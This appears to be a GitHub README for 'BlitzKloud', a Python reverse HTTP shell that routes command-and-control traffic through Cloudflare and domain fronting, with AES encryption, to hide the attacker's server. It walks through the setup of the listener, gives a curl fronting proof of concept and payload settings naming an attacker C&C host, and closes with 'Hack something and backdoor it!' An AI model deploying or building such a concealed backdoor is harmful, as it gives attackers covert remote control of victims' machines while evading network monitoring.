

# BlitzKloud
==================

 A Cloudflare compatible, SNI/domain fronting compliant Reverse HTTP Shell with built in 
AES encryption. Written in Python3, with dependencies minimized.  

 

<i> Darkerego 2019 ~ xelectron@protonmail.com ~ https://github.com/darkerego</i>

#### Concept

Blitzkloud is a Cloudflare compatible reverse HTTP shell, with SNI 
domain fronting functionality. Because this shell does not yet support HTTPS, 
(and even if it did, remember, Cloudflare is essentially a giant MITM honeypot), the shell 
also has built in support for AES encryption (no external libaries needed for AES with 
the payload because I imported functionality from pyaes directly.).  The goal was to create 
 a pure python3- powered reverse shell with miminal, (eventually no) outside dependencies 
(for portability), which allows the user to conceal the location of his or her
server (where we catch the shell), by both proxying through cloudflare, and hiding DNS 
requests to the destination server employing domain fronting tactics via SNI (server
name indication).

This functionality allows an attacker to hide their c&c server's ip and (to some extent) 
 domain, proxying commands and output through Cloudflare's global CDN, thus not revealing 
the IP address of your server. The shell also provides some obfuscation 
by exploiting Cloudflare's SNI bug/|feature domain fronting capabilities -- 
anyone monitoring DNS requests alone will not see the actual URL of your server:

<b>SNI Proof of Concept:</b>

<pre>
 $ curl -H "Host: sni.vulnerable.site" http://upwork.com
 \<!-- Tada! You've reached sni.vulnerable.site! -->
</pre>

For more details on SNI and domain fronting, see:
https://en.wikipedia.org/wiki/Domain_fronting

#### Usage

Requirements:

- VPS Server
- Cloudflare account
- Domain name (set up to use Cloudflare's CDN.)

<b>Setup & Configuration: </b>

First, you will need an HTTP server that is on Cloudflare's network. Purchase a cheap VPS, we 
do not need anything fancy to run this. You can get one from Digital Ocean for $5 per month. Next, 
you will need a free account with Cloudflare. Finally, you need a domain name. 

Configure your DNS to use Cloudflare's network. Next, install the listener on your server:

<pre>
$ git clone https://github.com/darkerego/blitzkloud
$ cd blitzcloud
$ pip3 install --user -r requirements.txt
</pre>

Test to make sure that the listener runs and has been installed correctly:

<pre>
$ python3 ./srv.py
Starting httpd on ('0.0.0.0', 8880)...
</pre>

Note: Cloudflare can proxy HTTP traffic on several different ports including 80, 8080, and 8880.

Next, configure the server and payload. First, choose a key to encrypt all traffic with using the
built in AES libary. Key length must be a multiple of 16, and the key must be in byte format. 
Edit this line and choose a secure key:

<pre>
key = b"This_key_for_demo_purposes_only!"
</pre>

This is the only thing that needs to be set in the server.py, however in the payload.py file, the 
following variables must be set:

<pre>
debug = False  # Display errors and output (for debugging)
front_url = 'sni.vulnerable.site'  # your c&c server: example: developer.attacker.com
url = 'http://mediafire.com:8880'  # example: http://upwork.com:8880 - (include port of listener if not port 80 (http)
key = b"This_key_for_demo_purposes_only!"  # AES Encryption key - keep private, must be in byte form.
</pre>

Now, the rest is up to you. Hack something and backdoor it! Because this is Python, it is 
virtually platform agnostic -- in other words, if the target system can run Python3, it can 
run this payload as well.

#### TODO: 

- Figure out, is domain fronting over HTTPS still possible? If yes, implement
- Consider sending output back as a cookie with a get request instead a post
- Better concealing of payloads - (make traffic look as innocuous as possible)
- Implement command history in shell , OR
- Implement a full PTY over HTTP shell
- Options for packing, obfuscation, compilation
- More details in the README about how this all works
- Port backwards so payload is Python2 compatible
- Eliminate dependencies (like requests), rewrite using raw sockets
  
